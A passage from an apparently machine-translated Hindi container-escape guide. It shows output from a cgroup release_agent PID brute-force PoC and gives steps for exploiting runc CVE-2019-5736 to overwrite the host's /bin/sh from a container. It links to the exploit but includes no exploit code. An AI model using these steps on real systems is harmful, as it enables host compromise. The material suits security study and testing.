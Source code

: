 ```bash
```
एक प्रिविलेज्ड कंटेनर के भीतर PoC को निष्पादित करने से आउटपुट इसके समान होना चाहिए:
```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```
# Runc अपशिष्ट (CVE-2019-5736)

यदि आप `docker exec` को रूट के रूप में निष्पादित कर सकते हैं (संभवतः sudo के साथ), तो आप CVE-2019-5736 का दुरुपयोग करके एक कंटेनर से बाहर निकलकर विशेषाधिकारों को बढ़ाने का प्रयास कर सकते हैं (यहां दुरुपयोग [यहां](https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go) है)। यह तकनीक मूल रूप से **मेज़बान** के _**/bin/sh**_ बाइनरी को **कंटेनर** से **अधिलेखित** करेगी, इसलिए कोई भी docker exec को निष्पादित करने वाला व्यक्ति प्रायोजन को ट्रिगर कर सकता है।

प्रायोजन को अनुरूप बदलें और `go build main.go` के साथ main.go को बनाएं। परिणामस्वरूपी बाइनरी को निष्पादन के लिए डॉकर कंटेनर में रखा जाना चाहिए।\
निष्पादन के दौरान, जैसे ही यह `[+] Overwritten /bin/sh successfully` प्रदर्शित करता है, आपको मेज़बान मशीन से निम्नलिखित को निष्पादित करना होगा:

`docker exec -it <container-name> /bin/sh`

इससे main.go फ़ाइल में मौजूद प्रायोजन को ट्रिगर किया जाएगा।

अधिक जानकारी के लिए: [https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)

# डॉकर ऑथ प्लगइन बाईपास
